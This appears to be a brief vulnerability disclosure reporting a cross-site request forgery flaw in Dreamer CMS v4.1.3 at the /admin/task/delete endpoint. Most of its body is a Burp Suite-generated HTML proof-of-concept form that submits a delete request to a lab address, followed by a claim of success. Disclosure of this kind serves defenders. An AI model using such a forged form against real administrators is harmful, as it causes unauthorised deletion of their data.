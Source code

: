 Target is https://github.com/iteachyou-wjn/dreamer_cms

version:4.1.3

Dreamer CMS v4.1.3 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/task/delete.

![1699360243454](https://github.com/CP1379767017/cms/assets/56637547/ac75d68f-8fcc-47b0-a090-3b564ac76e4d)

create poc

![图片](https://github.com/CP1379767017/cms/assets/56637547/10d88246-9c45-4414-a34a-36cd1a261ba4)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.186:8888/admin/task/delete">
      <input type="hidden" name="id" value="1721866720087113728" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
successed

![图片](https://github.com/CP1379767017/cms/assets/56637547/9caac804-b234-455d-966b-105c19796564)
